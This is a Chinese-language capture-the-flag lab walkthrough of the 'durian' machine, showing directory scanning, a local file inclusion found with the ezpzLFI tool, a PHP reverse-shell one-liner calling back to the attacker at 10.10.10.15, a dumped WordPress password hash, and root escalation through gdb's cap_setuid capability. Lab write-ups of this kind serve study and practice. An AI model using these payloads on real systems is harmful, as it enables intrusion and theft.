-----------------

START_TIME: Tue Mar 12 07:16:07 2024
URL_BASE: http://10.10.10.32:8088/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.32:8088/ ----
+ http://10.10.10.32:8088/.htaccess (CODE:403|SIZE:1227)                                                                                                                                  
==> DIRECTORY: http://10.10.10.32:8088/blocked/                                                                                                                                           
==> DIRECTORY: http://10.10.10.32:8088/cgi-bin/                                                                                                                                           
==> DIRECTORY: http://10.10.10.32:8088/css/                                                                                                                                               
==> DIRECTORY: http://10.10.10.32:8088/docs/                                                                                                                                              
==> DIRECTORY: http://10.10.10.32:8088/img/                                                                                                                                               
+ http://10.10.10.32:8088/index.html (CODE:200|SIZE:765)                                                                                                                                  
==> DIRECTORY: http://10.10.10.32:8088/protected/                                                                                                                                         
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8088/blocked/ ----
(!) WARNING: All responses for this directory seem to be CODE = 403.                                                                                                                      
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8088/cgi-bin/ ----
+ http://10.10.10.32:8088/cgi-bin/helloworld (CODE:200|SIZE:13)                                                                                                                           
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8088/css/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8088/docs/ ----
==> DIRECTORY: http://10.10.10.32:8088/docs/css/                                                                                                                                          
==> DIRECTORY: http://10.10.10.32:8088/docs/img/                                                                                                                                          
+ http://10.10.10.32:8088/docs/index.html (CODE:200|SIZE:5680)                                                                                                                            
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8088/img/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8088/protected/ ----
(!) WARNING: All responses for this directory seem to be CODE = 401.                                                                                                                      
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8088/docs/css/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8088/docs/img/ ----
                                                                                                                                                                                          
-----------------
END_TIME: Tue Mar 12 07:17:02 2024
DOWNLOADED: 32484 - FOUND: 4
```


## web渗透

目录扫出来很多啊，但是几乎都是访问不了的
这里有个目录可以看

web-server的名称和版本号
那么就去找一下对应漏洞吧

登录后命令执行反弹shell的
目前还没有管理员密码信息
先放弃吧

## 文件包含

一个很离谱的目录
cgi-data 当使用8000端口访问时，是无法访问的，8088：Request Page Not Found
然而不加端口是可以访问的
里面有一个php文件

文件源码如下

很明显的注释，include了一个file参数
文件包含

```bash
┌──(kali㉿kali)-[~/tools/lfi]
└─$ python ezpzLFI.py --wordlist=log.txt   --type log

                     __    ________         ____    ___  
  ___ _____ __ ____ / /   / __\_   \ __   _|___ \  / _ \ 
 / _ \_  / '_ \_  // /   / _\  / /\/ \ \ / / __) || | | |
|  __// /| |_) / // /___/ / /\/ /_    \ V / / __/ | |_| |
 \___/___| .__/___\____/\/  \____/     \_/ |_____(_)___/ 
         |_|                       [Modified by H0j3n]  
         
              Credits : Ch4rm @aniqfakhrul                                  


Available Type:
[param] [log] [rce] 

Example : http://localhost/index.php?file=
Example : http://localhost/index.php?file=php://filter/convert.base64-encode/resource=
Example : http://localhost/index.php?file=php://filter/resource=
Example : http://localhost/index.php?file=php://filter/read=string.rot13/resource=

Enter Url With Working Parameter: http://10.10.10.32/cgi-data/getImage.php?file=


[+] Original Size : 241

[+] Possible Working! 57300470 
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/var/log/nginx/access.log
[+] Possible Working! 19907 
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/var/log/nginx/error.log
[+] Possible Working! 116450 
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/usr/local/lsws/logs/error.log
[+] Possible Working! 232499 
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/proc/self/fd/7
[+] Possible Working! 82545 
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/proc/self/fd/9
[+] Possible Working! 1729 
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/etc/passwd

[+] Working List! 
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/var/log/nginx/access.log
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/var/log/nginx/error.log
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/usr/local/lsws/logs/error.log
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/proc/self/fd/7
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/proc/self/fd/9
        Payload = http://10.10.10.32/cgi-data/getImage.php?file=/etc/passwd
```
用普通的文件包含去包含没有发现什么
使用ezpzLFI去检查文件包含
这里看到了/var/log/nginx/access.log和error这俩东西
只能说没什么鸟用
/proc/self/fd/7和/proc/self/fd/9
那么这两个得看看

这里用get没搞好
换成post试了一下，发现执行成功了

那么就反弹shell吧

## 反弹shell

php -r '$sock=fsockopen("10.10.10.15",53);exec("sh <&3 >&3 2>&3");'
url编码一下直接执行
```bash
┌──(kali㉿kali)-[~/tools/lfi]
└─$ nc -lvnp 53                      
listening on [any] 53 ...
connect to [10.10.10.15] from (UNKNOWN) [10.10.10.32] 54632
whoami
www-data
```

## gbd提权

```bash
www-data@durian:/var/www/html/cgi-data$ sudo -l
sudo -l
Matching Defaults entries for www-data on durian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on durian:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /bin/ping
www-data@durian:/var/www/html/cgi-data$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/mount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

```bash
MariaDB [wordpress]> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------------+---------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email              | user_url                  | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------------+---------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$B43RXNPEZcA446Z2hqfAlmSTqvVsfH0 | admin         | hoa.litespeed@gmail.com | http://192.168.17.61/blog | 2020-09-08 02:38:55 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+-------------------------+---------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.001 sec)
```

去看了sql数据库的密码信息。破译不出来

使用gdb提权
```bash
www-data@durian:/var/www/html/blog$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/gdb = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
www-data@durian:/var/www/html/blog$ gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# 
```
关于capabilities提权

https://www.cnblogs.com/f-carey/p/16026088.html#tid-nt2X4f